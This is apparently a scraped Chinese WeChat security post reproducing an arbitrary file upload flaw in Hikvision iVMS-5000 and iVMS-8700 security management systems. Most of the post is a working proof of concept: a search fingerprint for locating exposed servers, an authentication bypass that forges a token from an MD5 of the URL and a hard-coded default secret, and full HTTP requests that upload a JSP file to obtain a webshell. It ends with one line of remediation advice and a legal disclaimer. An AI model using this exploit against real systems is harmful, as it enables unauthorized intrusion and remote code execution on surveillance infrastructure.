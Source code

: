 #  海康威视iVMS综合安防系统任意文件上传漏洞

巢安实验室  [ 巢安实验室 ](javascript:void\(0\);)

**巢安实验室** ![]()

微信号 safe-labs

功能介绍 为荣誉而战，为的是那份自己不屈服于任何人，踢踏是脚下的尊严。

____

___发表于_

收录于合集 #漏洞复现 83个

**漏洞简介**

海康威视iVMS系统存在在野0day漏洞，攻击者通过获取密钥任意构造token，请求/resourceOperations/upload接口任意上传文件，导致获取服务器webshell权限，同时可远程进行恶意代码执行。

 **影响版本**

海康威视综合安防系统iVMS-5000

海康威视综合安防系统 iVMS-8700

 **鹰图指纹**  

  * 

    
    
     web.body="/views/home/file/installPackage.rar"

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180936.png)

 **漏洞复现  
**

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180937.png)
burp抓包，尝试访问接口

POC：

  *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    POST /eps/api/resourceOperations/upload HTTP/1.1Host: ****User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/115.0Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2Accept-Encoding: gzip, deflateReferer: *****Connection: closeCookie: JSESSIONID=02768F721F81F74932E9782F16249669Upgrade-Insecure-Requests: 1  
    service=http%3A%2xxxxxxxhome%2Findex.action

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180938.png)

构造token绕过认证  （内部机制：如果token值与请求url+secretkey的md5值相同就可以绕过认证）  
默认值：secretKeyIbuilding  
token值需要进行MD5加密（32位大写）  
组合：token=MD5(url+"secretKeyIbuilding")  

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180939.png)

成功绕过

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180940.png)

然后构造文件上传payload:

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    POST /eps/api/resourceOperations/upload?token=构造的token值 HTTP/1.1Host: ****User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/115.0Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2Accept-Encoding: gzip, deflateReferer: *****Connection: closeCookie: JSESSIONID=02768F721F81F74932E9782F16249669Content-Type: multipart/form-data;boundary=----WebKitFormBoundaryGEJwiloiPoUpgrade-Insecure-Requests: 1Content-Length: 177  
    ------WebKitFormBoundaryGEJwiloiPoContent-Disposition:form-data;name=\"fileUploader\";filename=\"1.jsp\"Content-Type: image/jpeg  
    test------WebKitFormBoundaryGEJwiloiPo  
    

访问http://URL/esp/upload/返回得到的resourceUuid的值.jsp，这里不再赘述

 **修复建议**

关闭互联网暴露面访问的权限，文件上传模块做好权限强认证  

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180941.png)  

 **本文版权归作者和微信公众号平台共有，重在学习交流，不以任何盈利为目的，欢迎转载。**

 **  
**

 **由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，文章作者不为此承担任何责任。 **公众号**
内容中部分攻防技巧等只允许在目标授权的情况下进行使用，大部分文章来自各大安全社区，个人博客，如有侵权请立即联系公众号进行删除。若不同意以上警告信息请立即退出浏览！！！**

 **  
**

 **敲敲小黑板：《刑法》第二百八十五条
【非法侵入计算机信息系统罪；非法获取计算机信息系统数据、非法控制计算机信息系统罪】违反国家规定，侵入国家事务、国防建设、尖端科学技术领域的计算机信息系统的，处三年以下有期徒刑或者拘役。违反国家规定，侵入前款规定以外的计算机信息系统或者采用其他技术手段，获取该计算机信息系统中存储、处理或者传输的数据，或者对该计算机信息系统实施非法控制，情节严重的，处三年以下有期徒刑或者拘役，并处或者单处罚金；情节特别严重的，处三年以上七年以下有期徒刑，并处罚金。**

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

